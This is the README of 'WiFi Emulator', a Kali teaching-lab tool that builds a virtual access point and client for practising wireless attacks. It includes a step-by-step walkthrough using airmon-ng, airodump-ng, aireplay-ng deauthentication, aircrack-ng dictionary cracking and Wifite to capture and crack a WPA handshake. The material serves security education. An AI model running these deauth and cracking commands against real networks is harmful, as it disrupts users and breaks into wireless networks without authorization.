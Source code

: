 # Intro
Welcome to WiFi Emulator!
Please let me know if you have any questions or suggestions.
Kaled Aljebur,

Please note: it is only been tested on Kali so far.

Run the steps in the following order:
1. Generate Access Point Conf file
2. Edit ap.conf if needed
3. Generate Access Client Conf file
4. Edit client.conf if needed
5. Create Virtual Interfaces
6. Start Access Point on wlan0
7. Start Access Client on wlan1
8. (Optional) Run Wifite for capture/cracking

Other Buttons:
- Reset: Remove all virtual interfaces and temp files
- Close: Exit the application
- Status: Check the status of network interfaces, wlan0, and wlan1
- Help: Show this window

Clikc on `Open Root Terminal button`, then follow:
1.  Enable monitor mode on wlan2
    - `airmon-ng start wlan2`
    - This will change wlan2 into wlan2mon, use `ip a` to check
2.  Scan the avillable wireless networks
    - `airodump-ng wlan2mon`
3.  Start capturing the WPA hansshape from the targeted AP
    - `airodump-ng wlan2mon --bssid ce:7f:82:23:49:53 --channel 6 -w capture`
    - Change ce:7f:82:23:49:53 with wlan0 MAC address
    - If handshake captured, you will see `WPA handshake...` in the top right
4.  If no hsndshake captured, open new terminal tab, then try to de-auth
    - `aireplay-ng --deauth 3 -a ce:7f:82:23:49:53 wlan2mon`
    - Change ce:7f:82:23:49:53 with wlan0 or wlan1 MAC address
5.  Stop all commands when see WPA handshake captured,
    - all capturing files located in /var/log/wifi-emulator/capture
6.  Try dictionary attack to get the wifi key from the captured handshake
    - `aircrack-ng capture-01.cap -w /usr/share/dict/wordlist-probable.txt`

Or, clikc on `Open Root Terminal button`, type `wifite` then do:
- Select wlan2 as monitoring interface
- Select the Access Point CyberWifi
- Wifite will try to de-authentiate to ceapture the WPA handshake
- Little wait and you will see the cracked default key
- Wifite files are will be located in /var/log/wifi-emulator/capture
- Each time you run Wifite, /var/log/wifi-emulator/capture will be cleared

Note:
- Do not clock on "Generate..." after editing because your edit will be gone
- Ensure you run this tool with root (sudo)
- Use the status buttons to see the outputs
- All logs and Wifite cracking results will be saved in /var/log/wifi-emulator/

This application was created for educational and research purposes in 
cybersecurity teaching labs. The traffic generated between wlan0 and wlan1 is 
realistic and suitable for hands-on research.

# Install .deb in Kali
- To install:
    - Download [wifi-emulator.deb](https://github.com/kaledaljebur/wifi-emulator/blob/main/wifi-emulator.deb)
    - Use `sudo apt update && sudo apt install -y ~/Downloads/wifi-emulator.deb`
- To remove:
    - `sudo dpkg -r wifi-emulator`